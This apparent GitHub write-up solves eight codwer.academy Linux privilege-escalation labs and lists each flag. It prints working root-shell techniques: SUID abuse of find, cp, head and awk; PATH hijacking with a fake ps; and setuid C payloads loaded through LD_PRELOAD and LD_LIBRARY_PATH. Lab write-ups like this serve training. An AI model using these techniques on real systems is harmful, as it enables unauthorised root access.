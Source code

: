 # Privelege Escalation Laboratory 2

# This writeup contains the solving steps of all the prvelege escalation challenges from codwer.academy.

## Privesc1

![image](https://github.com/cbr1N/codwer/assets/95069685/e5edacbe-cba4-4269-8594-1c49e55d6a07)

Firstly we access a container running on a Linux machine using the given IP address and port. We also have the username and password that are configured for SSH access.

![image](https://github.com/cbr1N/codwer/assets/95069685/f0b16503-11a1-4912-a7cc-4d175fd94473)

As we can see /usr/bin/find has the SUID set to it. We can exploit this and gain root access.

![image](https://github.com/cbr1N/codwer/assets/95069685/09d4696a-5239-405e-8a24-e21387692d2e)

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

```
ls -la /usr/bin/find
./find . -exec /bin/sh -p \; -quit
whoami
cat /flag.txt
```
**flag: CWA{F1r5t_5U1D_D0N3}**

## Privesc2

![image](https://github.com/cbr1N/codwer/assets/95069685/ea0ec194-8a1d-448e-ad57-b710903254a0)

![image](https://github.com/cbr1N/codwer/assets/95069685/87373ef0-5f6c-4b35-bfe4-0b31f26feb18)

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Each input line is treated as a filename for the file command and the output is corrupted by a suffix : followed by the result or the error of the operation, so this may not be suitable for binary files.

```
ls -la /usr/bin/file
LFILE=/flag.txt
file -f $LFILE
```

**flag: CWA{G01NG_5TR0NG_K33P_1T_UP}**


## Privesc3

![image](https://github.com/cbr1N/codwer/assets/95069685/bc348785-5e18-4dfb-a312-6c5e29ab372c)

![image](https://github.com/cbr1N/codwer/assets/95069685/6bf9b740-1aab-4469-824f-4e302762faf1)

This can copy SUID permissions from any SUID binary (cp itself) to another. cp has user read permission so by copying it to the flag.txt file copy that we will create in /tmp, we gain read permission to that file. 

```
ls -la /usr/bin/cp
LFILE=/flag.txt
cp "$LFILE" /tmp/flag
/usr/bin/cp --attributes-only --preserve=all /bin/cp /tmp/flag
cat /tmp/flag
```

**flag: CWA{ST1LL_G01NG_5TR0NG_K33P_1T_UP}**

## Privesc4

![image](https://github.com/cbr1N/codwer/assets/95069685/3a077765-b9ce-44f2-b2f0-0bc25422892e)

Here we have the SUID set to head. That means that we can run head on any restricted file and it will show us its content.

```
ls -la /usr/bin/head
LFILE=/flag.txt
head "$LFILE"
```

**flag: CWA{0N3_M0R3_SU1D_L3FT}**

## Privesc5

![image](https://github.com/cbr1N/codwer/assets/95069685/02ca44d2-e9ca-4737-937d-dd9377c8c8ee)

As in other instances the /usr/bin/awk command has the SUID bit set so we can exploit it. We use a read file exploit to gain the contents of /flag.txt.

```
ls -l /usr/bin/awk
awk '//' /flag.txt
```

**flag: CWA{FLY_H1GH_L1K3_4_H4WK}**

## Privesc6

![image](https://github.com/cbr1N/codwer/assets/95069685/99601f0a-ed78-474a-a057-a1e968d5b1ce)

We can see that the run_me has SUID set to it.

![image](https://github.com/cbr1N/codwer/assets/95069685/354ea433-bf86-4c95-a717-d4108df8172b)

By creating a malicious ps script, we are taking advantage of the fact that run_me likely calls ps without specifying its full path, relying on the PATH environment variable.
Prepending /tmp to PATH ensures that our malicious ps script is executed instead of the system ps command.
This method works if run_me is running with elevated privileges, allowing our script to inherit these privileges and spawn a root shell.

```
ls -l ./run_me
echo '#!/bin/bash' > /tmp/ps
echo '/bin/sh' >> /tmp/ps
chmod +x /tmp/ps
export PATH=/tmp:$PATH
./run_me
whoami
cat /flag.txt
```

**flag: CWA{K33P_Y0UR_P4TH_FULL}**

## Privesc7

![image](https://github.com/cbr1N/codwer/assets/95069685/eb07f96d-154e-441b-8e71-d42702feb046)

This line env_keep+=LD_PRELOAD means that when a user executes a command with sudo, the LD_PRELOAD environment variable will be preserved.

![image](https://github.com/cbr1N/codwer/assets/95069685/de4af3cc-f87e-406d-a705-8b6db3da8a44)

When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will help us execute code as soon as the object is loaded. Then we run one of the programs you are allowed to run via sudo, in our case apache2, while setting the LD_PRELOAD environment variable to the full path of the new shared object.

```
sudo -l
touch preload.c
nano preload.c
cat preload.c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.os /home/codwer/preload.c
sudo LD_PRELOAD=/tmp/preload.os apache2
whoami
cat /flag.txt
```
preload.c script:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{PR3L04D_Y0UR_L1BR4R135}**

## Privesc8

![image](https://github.com/cbr1N/codwer/assets/95069685/14ed8a1d-e0b9-4914-9e99-f5904a0beb3e)

![image](https://github.com/cbr1N/codwer/assets/95069685/4bb582be-68e1-43b8-9961-d961ce38ec96)

The LD_LIBRARY_PATH contains a list of directories which search for shared libraries first.
Use one of the shared objects in the list and we will hijack it by creating a file with same name. We will be targeting the libcrypt.so.1 file.

![image](https://github.com/cbr1N/codwer/assets/95069685/160d397a-db5c-44d3-92ae-9e543b59b717)

The next steps are identical to the previous example.

![image](https://github.com/cbr1N/codwer/assets/95069685/3720bafc-c7f0-447f-b2ce-64c08f04e2b9)

And finally, we run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where compiled shared object is located).

```
ldd /usr/sbin/apache2
touch library.c
nano library.c
cat library.c
gcc -o /tmp/libscrypt.so.1 -shared -fPIC /home/codwer/library.c
sudo LD_LIBRARY_PATH=/tmp apache2
whoami
cat /flag.txt
```
library.c script:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{KN0W_480U7_LD_L18R4RY_P47H}**

## Lessons learned

